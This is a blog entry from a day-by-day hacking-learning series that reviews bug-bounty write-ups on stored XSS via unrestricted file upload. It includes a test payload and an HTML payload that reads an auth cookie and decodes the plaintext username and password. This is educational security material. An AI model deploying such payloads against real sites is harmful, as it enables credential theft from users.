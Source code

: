 ```yaml
---
title:  "Day 34/100 Hack and Improvement"
date: 2020-06-03
tags: [Penetration Testing, Hacking, Bug Bounty, Offensive Security]
header: 
  image: "assets/images/100dl/day34/header.jpg"
---
```


Day 34 comes with more cases related to XSS and its capabilities such as privilege escalation and stealing plain text passwords.

## Stored XSS to Privilege escalation 

From [Rajesh Ranjan](https://twitter.com/eh_rajesh). In this writeup, how researcher was able to escalate the privilege to Admin level user by chaining some low hanging fruits. Check the writeup [here](https://medium.com/bugbountywriteup/found-stored-cross-site-scripting-whats-next-privilege-escalation-like-a-boss-d-8fb9e606ce60).

## Case Review for Stored XSS which leads to Plaintext Password Disclosure

From [Sam (CoffeeJunkie)](https://twitter.com/coffeejunkiee_). There are several vulnerabilities that I'm obsessed about, and one of them is Unrestricted File Upload, and I'm ever more obsessed about its capabilities, and escalations that might have. In this case an Unrestricted File Upload brought a great chance for Stored XSS at the time to upload a HTML file as a profile picture. 

According the attacker, the profile picture was being uploaded in ```PATCH``` method, and encoded in base 64, therefore the attacker proceeded to make the following HTML code:
```html
<!DOCTYPE html>
<html>
<body>
<h1>Test</h1>
</body>
<script>
alert(1);
</script>
</html>
```

Where the attacker encoded the HTML code to base64 and replacing it for the picture. Therefore, in this case what's left besides stored XSS is privilege escalation which can achieve creative things such as stealing passwords in plain text. This is the HTML coed that the attacker uploaded in order to achieve the privilege escalation in the site's target. 
```html
<html>
<head>
 <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
<script src="https://cdn.jsdelivr.net/npm/js-cookie@rc/dist/js.cookie.min.js"></script>
</head>
<body>
<h1>Password Display by bad5ect0r</h1>
<p>Your username is: <span id="uname"></span></p>
<p>Your password is: <span id="pass"></span></p>
</body>
<script>
$(document).ready(function () {
const AUTHH = Cookies.get('AUTHH');
const unb64 = atob(AUTHH);
const basic = unb64.split(' ');
const uname_pass = atob(basic[1]).split(':');
const user = uname_pass[0];
const pass = uname_pass[1];
$('#uname').html(user);
$('#pass').html(pass);
});
</script>
</html>
```

FULL write up [here](https://www.bad5ect0r.sh/index.php/2020/05/17/stored-xss-password-disclosure/)
